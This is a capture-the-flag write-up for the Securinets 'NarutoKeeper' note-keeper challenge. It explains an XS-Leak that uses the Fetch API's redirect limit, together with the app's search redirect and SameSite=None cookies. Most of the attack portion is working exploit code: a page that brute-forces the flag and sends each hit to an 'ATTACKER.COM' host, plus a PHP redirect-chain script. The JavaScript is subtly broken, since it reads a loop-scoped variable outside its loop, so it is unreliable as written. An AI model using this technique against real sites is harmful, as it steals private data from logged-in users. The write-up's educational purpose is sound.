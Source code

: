 # NarutoKeeper

> I was confused and didn't know what's the approproate name for this website :( However just a typical note keeper website \o/ Enjoy the ride :)\
> **Link:** https://20.124.0.135/

{% file src="../../.gitbook/assets/source.tar.gz" %}

In this challenge, we can create notes and search for them.

In particular, the search function is rather interesting. We can see that if a note is found with the given query, then a server-side 302 redirect is issued to `/view`.

```python
@app.route('/search')
def search():
    if 'username' not in session:
        return redirect('/login')
    if 'query' not in request.args:
        return redirect('/home')
    query = str(request.args.get('query'))
    results = get_pastes(session['username'])
    res_content=[{"id":id,"val":get_paste(id)} for id in results]
    if ":" in query:
        toGo=get_paste(query.split(":")[1])
        sear=query.split(":")[0]
    else:
        toGo=res_content[0]["val"]
        sear=query
    i=0
    for paste in res_content:
        i=i+1
        if i>5:
            return redirect("/view?id=MaximumReached&paste="+toGo.strip())     
        if sear in paste["val"]:
            return redirect("/view?id=Found&paste="+toGo.strip())
    return render_template("search.html",error='No results found.',result="")
```

Since the redirect is only issued if the query is part of the note, we can use the redirect as an oracle to detect whether our flag is correct and bruteforce the flag.

Just to be sure, we can also check that the `SameSite` attribute of the cookies is set to `None`, enabling cross-origin requests to carry the victim's cookies.

```python
app.config['SESSION_COOKIE_SAMESITE']="None"
app.config['SESSION_COOKIE_SECURE']= True
```

I read [some slides](https://docs.google.com/presentation/d/1rlnxXUYHY9CHgCMckZsCGH4VopLo4DYMvAcOltma0og/edit#slide=id.g63e29d5a06\_0\_0) on this exact scenario a while back. The attack relies on the fact that the Fetch API has a maximum redirect count of 20. If the redirect count exceeds this value, a network error is returned.

![](https://lh5.googleusercontent.com/Wx6wCcfIg7RBtGr3pV9hasQVoGFm7EsfOAS8Rf-XeLavDHd04SimoI3aTLhJEVAXYFA4jTp3d9fpypge3hgUxYNrYXIGa0BNRveFJsq9wVLauU-FE9MCqY9k--3GOu31GnIZnpauHuI)

Therefore, we can leak whether a redirect occurred in the cross-origin request by catching the network error.

On the client, we will make a request to our own attacker server. This server should redirect to itself 19 times, before redirecting to the actual target URL.

If the target URL then performs a further 302 redirect, then the redirect limit is reached - we can catch the error and exfiltrate the flag so far.

```markup
<html>
    <body>
        <script>
            (async () => {
                const attackerUrl = "http://ATTACKER.COM";
                const checkRedirect = async (numRedirects, toCheck) => {
                    let res = 0;
                    await fetch(`${attackerUrl}/redirect.php?check=${numRedirects}&step=0&url=https://20.124.0.135/search?query=${toCheck}`, {
                        credentials: "include",
                        mode: 'no-cors',
                    }).then((r) => {
                        // no redirect
                    }).catch(async() => {
                        // redirect limit reached
                        // there was an extra redirect (by the server)
                        fetch(`${attackerUrl}/${toCheck}`);
                        res = 1;
                    })
                    return res;
                }
                
                const alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!{}";
                let curr = "Securinets{ArigAt0";

                while (true) {

                    for (let i = 0; i < alphabet.length; i++) {
                        let toCheck = curr + alphabet[i];
                        let res = await checkRedirect(0, toCheck);
                        if (res)
                            break;
                    }
                    
                    curr = toCheck;
                    if (curr[curr.length -1] == '}') {
                        break;
                    }
                }

            })();

        </script>
    </body>
</html>
```

On our server, we run the following PHP script to redirect to ourself 19 times, before redirecting to the target URL.

```php
<?php
    $check = (int) $_GET['check'];
    $step = (int) $_GET['step'];
    $url = $_GET['url'];
    if ($step === 19 - $check) {
        header('Location: ' . $url);
    } else {
        header('Location: redirect.php?check=' . $check . '&step=' . ($step + 1) . '&url=' . $url);
    }
?>
```

Here's the result! Thankfully the admin bot waits long enough for us to slowly bruteforce the flag letter by letter.

![](<../../.gitbook/assets/image (91) (1).png>)
